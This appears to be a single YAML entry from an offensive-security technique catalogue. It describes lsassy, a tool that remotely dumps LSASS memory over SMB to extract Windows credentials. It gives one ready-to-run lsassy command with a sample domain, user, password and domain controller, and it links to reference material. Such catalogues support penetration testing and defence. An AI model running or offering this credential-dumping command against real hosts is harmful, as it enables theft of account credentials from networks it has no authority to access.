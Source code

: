 ```yaml
---
title: |
  Extract Credentials Remotely (RunDLL)
description: |
  Python tool to remotely extract credentials on a set of hosts. This tool uses impacket project to remotely read necessary bytes in lsass dump and pypykatz to extract credentials.

command: |
  lsassy test.local/testuser:Welkom01!@dc01.test.local
items:
  - Username
  - Password
services:
  - SMB
OS:
  - Linux
attack_types:
  - Enumeration
references:
  - https://github.com/Hackndo/lsassy
  - https://en.hackndo.com/remote-lsass-dump-passwords/
---
```

